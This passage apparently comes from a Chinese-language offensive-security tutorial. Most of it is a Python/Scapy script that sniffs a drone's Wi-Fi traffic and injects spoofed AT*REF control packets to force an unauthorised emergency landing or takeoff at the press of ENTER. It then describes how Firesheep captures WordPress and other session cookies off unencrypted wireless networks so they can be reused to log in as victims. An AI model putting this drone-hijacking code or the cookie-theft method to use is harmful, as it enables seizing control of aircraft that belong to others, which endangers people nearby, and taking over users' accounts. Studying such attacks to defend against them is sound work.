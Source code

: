 ```
        try:
            self.seq = int(raw.split(',')[0].split('=')[-1]) + 5
        except:
            self.seq = 0
    EMER = "290717952"
    def emergencyland(self):
        spoofSeq = self.seq + 100
        watch = 'AT*COMWDG=%i\r'%spoofSeq
        toCmd = 'AT*REF=%i,%s\r'% (spoofSeq + 1, EMER)
        self.injectCmd(watch)
        self.injectCmd(toCmd)

    def injectCmd(self, cmd):
        radio = dup.dupRadio(self.curPkt)
        dot11 = dup.dupDot11(self.curPkt)
        snap = dup.dupSNAP(self.curPkt)
        llc = dup.dupLLC(self.curPkt)
        ip = dup.dupIP(self.curPkt)
        udp = dup.dupUDP(self.curPkt)
        raw = Raw(load=cmd)
        injectPkt = radio / dot11 / llc / snap / ip / udp / raw
        sendp(injectPkt)
    def takeoff(self):
        spoofSeq = self.seq + 100
        watch = 'AT*COMWDG=%i\r'%spoofSeq
        toCmd = 'AT*REF=%i,%s\r'% (spoofSeq + 1, TAKEOFF)
        self.injectCmd(watch)
        self.injectCmd(toCmd)

def main():
    uavIntercept = interceptThread()
    uavIntercept.start()
    print('[*] Listening for UAV Traffic. Please WAIT...')
    while uavIntercept.foundUAV == False:
        pass
    while True:
        tmp = raw_input('[-] Press ENTER to Emergency Land UAV.')
        uavIntercept.emergencyland()
if __name__ == '__main__':
    main() 
```

## 检测 Firesheep

2010 年，Eric Butler 开发了一个改变游戏规则的工具，Firesheep。这个工具提供了简单的两个按钮接口用来远程窃取不知情用户的 Facebook，Google，Twitter 等社交网站上的账户。Eric 的 Firesheep 工具为了得到站点的 HTTP Cookies 被动的在无线网卡上监听。如果一个用户连接到不安全的网站也没有使用任何服务器控件如 HTTPS 来保护他的会话，那么攻击者能使用 Firesheep 拦截 cookies 并被重用。

Eric 提供了一个简单的界面用来建立处理特殊的具体的 cookie 来捕获重用。注意，下面的对 WordPress 的处理包含三个函数。首先`matchPacket()`通过查看正则表达式`wordpress_[0-9a-fA-F]{32}`来确认 cookie，如果函数匹配到了占则表达式，那么`processPacket()`抽取 WordPress 的`sessionID` cookie，最后`identifyUser()`函数解析登陆到 WordPress 的用户名，黑客使用这些信息来登陆用户的 WordPress。
